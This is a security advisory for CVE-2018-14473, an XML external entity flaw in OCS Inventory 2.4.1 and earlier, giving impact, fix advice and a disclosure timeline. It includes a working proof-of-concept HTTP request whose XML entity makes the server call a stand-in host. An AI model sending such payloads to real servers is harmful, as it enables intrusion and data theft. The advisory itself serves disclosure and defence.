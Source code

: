 # CVE-2018-14473: XML External Entity (XXE) in OCS Inventory
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-None-red?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()


__Vendor:__ OCS Inventory<br>
__Vendor URL:__ https://ocsinventory-ng.org<br>
__Versions affected:__ OCS Inventory <= 2.4.1<br>
__Discovered by:__ Pablo Martinez ([@xassiz](https://twitter.com/xassiz))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ Yes ([ref](https://github.com/blackarrowsec/advisories/blob/master/2018/CVE-2018-14473/)) <br>



## Summary
Due to an inadequate configuration it is possible to use external entities, which when processed by the XML parser, allow the exfiltration of sensitive information from the machine.

## Details
The communication between the agents and the master server of OCS Inventory is done through the HTTP protocol, sending the information against an endpoint. The information is structured in the form of XML, being parsed by the server to extract the data. 
As proof of concept, a local web server can be raised on the user’s machine, as a canary, and send the following request against the vulnerable endpoint:

```
POST /ocsinventory HTTP/1.1
Host: xxxxxxxxxxxxxxx
User-Agent: OCS-NG_WINDOWS_AGENT_v2.3.1.1
Accept: */*
Content-Type: application/xml
Content-Length: 160
Expect: 100-continue
Connection: close
<?xml version="1.0" encoding=""UTF-8" ?>
<!DOCTYPE r [
      <!ELEMENT r ANY >
      <!ENTITY sp SYSTEM "https://ourserver/?pwned">
>
<REQUEST>&sp;</REQUEST>
```

When the XML is processed, the entity &sp; expands and the OCS Inventory server makes a request against our canary, verifying the existence of the vulnerability.

## Impact
An attacker can exfiltrate sensitive information from the machine.

## Recommendation
Update the software to last version.

## Timeline

* 05/06/2018 - Reported vulnerability to vendor
* 05/06/2018 - Vendor ACK
* 14/06/2018 - First fix attempt (bypassed)
* 02/07/2018 - Correct fix
* 30/07/2018 - Security Release with fix (OCS Inventory 2.5)


#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
